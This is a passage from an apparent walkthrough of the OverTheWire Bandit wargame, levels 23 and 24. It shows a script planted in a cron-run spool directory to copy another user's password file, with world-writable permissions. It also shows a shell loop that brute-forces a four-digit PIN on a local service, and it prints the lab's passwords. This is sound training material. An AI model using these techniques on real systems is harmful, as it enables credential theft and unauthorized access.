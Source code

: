 ```sh
        rm -rf ./$i
    fi
done
```
The script runs all scripts in `/var/spool/bandit24/foo`. Let's run a script that `cat`s `bandit24`'s password. We also give every user permission to edit it, as well as the file we write the output to:
```sh
$ mkdir /tmp/seb2
$ cd /tmp/seb2
$ vim script.sh
$ cat script.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/seb2/output
$ chmod 777 script.sh
$ touch output
$ chmod 666 output
$ cp script.sh /var/spool/bandit24/foo
```
Now we wait, and finally:
```sh
$ cat output
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Level 24
A port is listening on port `300002`and will give us the password for `bandit25` if given the previous password and a secret numeric 4-digit code. We need to brute force this. Let's just make a simple script that does this. We'll do this in a shell script for practice, but it seems we also have python.
```sh
$ mkdir /tmp/seb3
$ cd /tmp/seb3
$ vim script.sh
$ cat script.sh
#!/bin/bash

exec 3<>/dev/tcp/127.0.0.1/30002

read -r INIT <&3

for i in {0000..9999}; do
        echo "Trying $i"
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >&3
        read -r REPLY <&3
        echo "$REPLY"
        if [[ ! $REPLY == *"Wrong"* ]]; then
                break
        fi
done
```
It's a bit slow, but it does the job.
```sh
...
Trying 9707
Wrong! Please enter the correct pincode. Try again.
Trying 9708
Correct!
```
Whoops, it cut off the rest of the response.
```sh
$ echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9708" | nc localhost 30002
```